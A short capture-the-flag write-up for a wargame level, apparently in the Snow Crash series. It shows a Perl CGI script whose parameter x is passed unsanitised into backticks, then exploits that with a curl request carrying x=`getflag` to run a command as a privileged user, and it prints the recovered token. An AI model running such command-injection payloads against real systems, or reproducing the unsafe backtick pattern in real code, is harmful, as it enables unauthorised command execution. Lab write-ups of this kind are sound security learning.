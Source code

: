 When we started the level04, in the home of the user we found the perl file **level04.pl**

It looks like this:
```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

The relevent parts are:
- the second line:
```pl
# localhost:4747
```
Which hint us to use curl to call the perl script.

- and the function x:

```pl
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

Which print $y, which is the param x, said here:
```pl
x(param("x"));
```

while making ls -l, we can see:

```bash
-rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl
```
Which means that like in the previous flag, the script as permission to execute getflag as flag04.

We then use curl to call the scipt:

```bash
curl -X POST http://localhost:4747/level04.pl  -d 'x=`getflag`'
```

and we got:

```bash
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

